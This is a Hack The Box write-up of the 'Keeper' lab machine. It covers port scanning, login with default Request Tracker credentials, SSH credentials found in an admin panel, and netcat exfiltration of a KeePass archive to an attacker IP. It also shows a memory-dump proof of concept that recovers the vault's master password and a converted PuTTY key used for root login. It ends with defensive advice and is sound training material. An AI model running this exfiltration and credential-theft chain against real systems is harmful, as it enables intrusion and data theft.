



# HTB - Keeper

**IP Address:** `10.10.11.227`  
**OS:** Ubuntu  
**Difficulty:** Easy  
**Tags:** #SSH, #nginx, #RequestTracker, #KeePass, #PasswordCracking, #PrivilegeEscalation

---
## Synopsis

Keeper is an easy Linux machine where initial access is gained by discovering default credentials in a **Request Tracker** instance, sourced from a public GitHub repository.  
Those credentials lead to the admin panel, where an SSH password for another user is found.  
Post-compromise, sensitive files are exfiltrated — notably a KeePass database and memory dump — allowing extraction of the master password and retrieval of a PuTTY private key, which is converted for SSH login as `root`.

---
## Skills Required

- Web application reconnaissance and credential discovery  
- Linux file transfer via `netcat`  
- KeePass database analysis and password recovery  
- SSH key conversion and usage  

## Skills Learned

- Identifying hardcoded credentials in public repositories  
- Extracting KeePass master passwords from memory dumps  
- Handling `.ppk` → OpenSSH key conversion  
- Using `netcat` for secure file transfers

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

First, we verify that the host is reachable:

```bash
ping -c 1 10.10.11.227
```


---
### 1.2 Port Scanning

We scan all TCP ports with Nmap to identify services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.227 -oG allPorts
```


Extract open ports:

```bash
extractPorts allPorts
```


---
### 1.3 Targeted Scan

We run a detailed scan on discovered ports:

```bash
nmap -sCV -p22,80 10.10.11.227 -oN targeted
```


**Findings:**  
- **SSH** → OpenSSH 8.9p1 Ubuntu 3ubuntu0.3  


- **HTTP** → nginx 1.18.0


Note: The `Uploaded To` field in banners hints that one service could be containerized (possibly Docker), but this detail does not directly affect exploitation.

---
## 2. Web Enumeration

### 2.1 Accessing the Web Application

Visiting the IP shows a placeholder page:  


Clicking the message displays an error implying the hostname must be in `/etc/hosts`:  


We add:

```
10.10.11.227 keeper.htb tickets.keeper.htb
```

Now, the site loads a login page:  


---
### 2.2 Identifying Request Tracker

We see “Request Tracker” branding:  


Searching for it on Google reveals the GitHub repository:  
[https://github.com/bestpractical/rt](https://github.com/bestpractical/rt)

In its `Dockerfile`, we find:

```
ENV RT_DBA_USER root
ENV RT_DBA_PASSWORD password
```

---
### 2.3 Admin Login with Default Credentials

We log in with:

```
Username: root
Password: password
```



Access granted.

---
### 2.4 Enumerating Admin Panel

Inside `Admin → Users`, we locate another user:  


Credentials found:

```
Username: lnorgaard
Password: Welcome2023!
```

---
## 3. Foothold

### 3.1 SSH Access

We connect via SSH:

```bash
ssh lnorgaard@10.10.11.227
```


🏁 **User flag obtained**.

---
## 4. Post-Exploitation

### 4.1 Gathering System Info

We check user and system details:

```bash
id
lsb_release -a
ls -l
```


This is an Ubuntu Jammy system.

---
### 4.2 File Exfiltration via Netcat

We find `RT30000.zip` and exfiltrate it:

**Attacker:**
```bash
nc -nlvp 443 > file.zip
```

**Victim:**
```bash
nc 10.10.14.7 443 < RT30000.zip
```


Verify integrity:

```bash
md5sum file.zip
```



---
### 4.3 KeePass Database Analysis

Unzipping reveals `passcodes.kdbx`:  


Opening with KeePassXC requires a master password:  
```bash
keepassxc passcodes.kdbx
```


We dump its hash:  


The hash is not crackable with standard wordlists.

---
### 4.4 KeePass Memory Dump Exploit

Searching for KeePass exploits, we find:  
[https://github.com/matro7sh/keepass-dump-masterkey](https://github.com/matro7sh/keepass-dump-masterkey)

We download and run `poc.py`:

```bash
wget https://raw.githubusercontent.com/matro7sh/keepass-dump-masterkey/refs/heads/main/poc.py
python3 poc.py KeePassDumpFull.dmp
```


Output contains special characters. Searching reveals it’s Danish: `Rødgrød med Fløde`.


---
### 4.5 Unlocking KeePass

We try different variations and the correct password is:  
```
rødgrød med fløde
```

Inside KeePass, we find two entries. The `root` entry contains a **PuTTY-User-Key-File**:  



---
## 5. Privilege Escalation

### 5.1 Direct root login does not work

First, we verify that common direct escalation paths are **not** viable:

- SSH login as `root` using a password → rejected.  
    

- From the compromised user, trying to elevate locally (e.g., `sudo`/`su`) also fails.  
    

This confirms we must leverage the material found in KeePass.

---

### 5.2 Convert the PuTTY key to OpenSSH

The `root` entry in KeePass includes a **PuTTY-User-Key-File**. We save its contents as `private_key` and convert it to an OpenSSH private key with `puttygen`:

``` bash
puttygen private_key -O private-openssh -o id_rsa 
```


---

### 5.3 SSH as root using the converted key

With the OpenSSH key ready and permissions set, we authenticate as `root` **without a password**:

``` bash
chmod 600 id_rsa
ssh -i id_rsa root@10.10.11.227
```


🏁 **Root flag obtained**.
---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Web Enumeration** → Identified Request Tracker.  
2. **Credential Discovery** → Default creds from GitHub repo.  
3. **Admin Panel Access** → Found SSH creds for `lnorgaard`.  
4. **File Exfiltration** → Retrieved KeePass DB.  
5. **Password Extraction** → KeePass dump exploit recovered master password.  
6. **SSH Key Conversion** → Logged in as root.

---
## Defensive Recommendations

- Remove default/hardcoded credentials from public repositories.  
- Restrict access to admin panels.  
- Protect and encrypt sensitive vaults; avoid storing them unprotected on user systems.  
- Disable direct root SSH access.  
- Monitor unusual file transfers and implement DLP solutions.
